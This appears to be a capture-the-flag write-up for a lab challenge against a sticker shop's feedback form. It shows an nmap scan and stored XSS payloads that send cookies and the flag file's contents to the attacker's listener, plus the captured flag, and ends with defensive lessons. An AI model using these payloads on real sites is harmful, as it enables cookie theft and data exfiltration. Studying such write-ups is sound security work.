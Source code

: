 ```yaml
---
title: "XSS Challenge: Exploiting a Sticker Shop's Feedback Form"
date: 2024-01-21
categories: [Cybersecurity, Web Security]
tags: [xss, ctf, web-exploitation, javascript]
image:
  path: https://github.com/user-attachments/assets/1d7a378d-3943-40dc-906b-66a4002470a5
  alt: The Sticker Shop Challenge
---
```


## The Challenge

The local sticker shop has just launched its very own webpage. However, lacking much web development experience, they chose to build and host the site on the same computer they use for browsing the internet and reading customer feedback. A questionable decision!

Our objective: Access the flag located at http://ROOM_IP/flag.txt.

## Initial Reconnaissance

An Nmap scan revealed two open ports:

```bash
$ nmap -sV -sC -oN nmap_results 10.10.110.248 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 16:07 CET
Nmap scan report for 10.10.110.248
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http-proxy Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
```

## Initial Access Attempts

Direct access to http://10.10.110.248:8080/flag.txt was refused. However, we could access the homepage:

![Sticker Shop Homepage](https://github.com/user-attachments/assets/71ad2f7a-7f18-4fb7-b056-9da8c08a7f13)

The homepage appeared normal, but there was an interesting feedback page where support staff review submissions:

![Feedback Form](https://github.com/user-attachments/assets/874970ba-7060-4516-baf0-605bd62211ab)

## Testing for XSS

First, we tested a basic XSS payload to confirm the vulnerability:

```javascript
<img src=x onerror=document.location="http://10.8.6.138/"+document.cookie>
```

Our server received a connection, confirming the XSS vulnerability:

```bash
$ python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.110.248 - "GET / HTTP/1.1" 200 -
```

## Exploiting the Vulnerability

After confirming the XSS vulnerability, we crafted a payload to fetch the flag file and send it to our server:

```javascript
<img src="x" onerror="
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(flag => {
    fetch('http://10.8.6.138:81/?flag=' + encodeURIComponent(flag));
  });
">
```

## Capturing the Flag

Running our listener on port 81:

```bash
$ python3 -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.110.248 - "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -
```

## Key Takeaways

1. Never host sensitive files on systems accessible to user input
2. Always implement proper input validation and sanitization
3. Separate review systems from production environments
4. Implement proper access controls for sensitive files

This challenge demonstrates how a simple XSS vulnerability can be leveraged to access restricted files when proper security controls aren't in place. 
